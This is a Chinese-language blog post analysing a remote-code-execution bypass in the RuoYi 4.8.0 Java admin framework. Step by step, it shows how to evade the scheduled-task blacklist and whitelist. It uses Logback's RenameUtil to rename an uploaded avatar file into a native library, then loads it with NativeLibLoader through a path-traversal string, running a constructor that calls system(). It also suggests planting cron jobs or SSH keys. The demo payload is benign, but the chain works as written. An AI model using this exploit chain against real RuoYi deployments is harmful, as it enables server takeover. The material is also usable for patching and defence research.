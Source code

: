 #  若依4.8.0RCE分析  
Douuyu  北银京卫军   2025-06-16 06:05  
  
一、最新版本RCE限制  
  
    在创建任务或修改任务的接口都会对上传的内容进行过滤，可以看到禁用了rmi、ldap、http协议，无法通过远程加载进行rce  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwbo5MCoojPicwsaQmzrRluXGIMGrIHcyNnLGwZA4zQYDQoxg6tP7COsQ/640?wx_fmt=png&from=appmsg "")  
  
    并且在调用类时进行黑名单校验  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwI4JVOMxkZ0XsOlcqBXib726DicRicVok8icEyFrlOIbpqXOtwBicFDIvjFQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwRMqJibMVA4aYhfUN2aHJTfcyeFG9bXbqzHv31CzCyksdul5cQrHz2vw/640?wx_fmt=png&from=appmsg "")  
  
      
在加载包时还会进行白名单校验  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwYqeIbQFdfqDbSx2VKVeTWzFyKbkW7AT3zRqCgRzgJaibDreIpOhI7AQ/640?wx_fmt=png&from=appmsg "")  
  
      
跟进whiteList方法，使用containsAnyIgnoreCase对字符串进行校验，是否存在白名单的字段  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwquSW1xaiaf6IzNBicLokSiaJiaB4RHop4FUnn7OOLQJJQjcnAXkWJYTic7w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwooh2d6136JYJibzB4YiactVxkUdaCsPcG4O2eiasFtNho9UOhUXnfPJoQ/640?wx_fmt=png&from=appmsg "")  
  
    所以我们在创建计划任务时要带有“com.ruoyi.quartz.task”字段，并且使用其他包下的方法绕过黑名单的限制  
  
  
    在反射的时候还要注意，需要满足存在一个无参构造函数，且都是public  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwG6B3qpPfc3uj9kODWNS68ib75xM7c2nP1ic6LggwQGmvtfLLppKVMTqw/640?wx_fmt=png&from=appmsg "")  
  
      
条件总结：  
  
        1、传入的字符串需要包含com.ruoyi.quartz.task  
  
        2、不能使用黑名单中包的类  
  
        3、使用的类需要满足：有一个无参构造函数，并且都是public，方法也需要是public；传递的参数只能是基本类型  
  
二、寻找调用方法  
  
    在进行日志处理的组件中一般会存在对文件操作的方法，在logback组件中就存在类似的方法  
  
  
    ch.qos.logback.core.rolling.helper.RenameUtil类中存在文件复制的方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwA115FNwLewRZCWP5tGxeDFReIqic000RML1wAkZY0jxC7aiaA0py9ryQ/640?wx_fmt=png&from=appmsg "")  
  
      
那么我们可以利用文件上传脚本图片，通过上面的文件复制进行文件的移动和重命名  
  
      
先上传文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwXYpF0icAne91AibvY9efxibVQoA9FPy2rfmzKYaJoaibzkG75BzGtLhQdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwVhdEhmwsZLaGd8icEQiaawQmCekC7AxE2TumKaCF9kOUDRQq6xJiaey5g/640?wx_fmt=png&from=appmsg "")  
  
      
然后使用ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying()方法对文件进行移动重命名（文件的默认路径：/home/ruoyi/），poc如下：  
```
ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying("/RuoYi-master/upload/avatar/2025/05/05/com.ruoyi.quartz.task_20250505172815A006.png","/RuoYi-master/upload/avatar/2025/05/05/test.txt")
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwjw0cu4dYSXzzpdGGh3C7Tm3uDwic5qcCicFllAJjjia0I2ib342JibZX87Q/640?wx_fmt=png&from=appmsg "")  
  
      
执行之后的结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwBiaY18L1txBg6e26MmCkfgxvepcpQQwKyYmEtw5vfliaxrfbDkmmTzAw/640?wx_fmt=png&from=appmsg "")  
  
      
那么我们就可以写计划任务或者ssh  
  
三、使用com.sun.glass.utils.NativeLibLoader.loadLibrary进行RCE  
####     写一个calc.c  
  
```
#include <stdlib.h> 

__attribute__((constructor)) 
static void auto_run() {
    system("open -a calculator");
}
```  
  
    进行编译  
```
gcc  calc.c -o calc
```  
  
      
将编译后的文件上传  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwEwwBjtS9ibFyxg5kaIL5iczyk2kRBxtREHmSSYyVrAQxHtI4ehO1BAPw/640?wx_fmt=png&from=appmsg "")  
  
      
将文件进行重命名  
```
ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying("/RuoYi-master/upload/avatar/2025/05/05/com.ruoyi.quartz.task_20250505172815A006.png","/RuoYi-master/upload/avatar/2025/05/05/com.ruoyi.quartz.task_20250505172815A006.dylib")
```  
  
      
使用com.sun.glass.utils.NativeLibLoader.loadLibrary执行动态代码库，添加计划任务  
```
com.sun.glass.utils.NativeLibLoader.loadLibrary('../../../../../../../../../../RuoYi-master/upload/avatar/2025/05/05/com.ruoyi.quartz.task_20250505172815A006')
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDw6LIcWUz4DcgQUj8yCNB5kiaOic8H5JBFLPFx4JH89IVc7rTibWrEkzkCQ/640?wx_fmt=png&from=appmsg "")  
  
      
执行计划任务，可执行代码库中的系统命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwamTlqLA0aubkcRWeIDOWuTkLfPyibCMFCW4icgSTc55XtSD8teEQkMDQ/640?wx_fmt=png&from=appmsg "")  
####     RCE利用条件  
####         1、需要根据jdk版本判断是否存在  
#### com.sun.glass.utils.NativeLibLoader.loadLibrary；  
  
  
       2、文件上传的默认路径是/home/ruoyi，如果修改了就需要猜测  
  
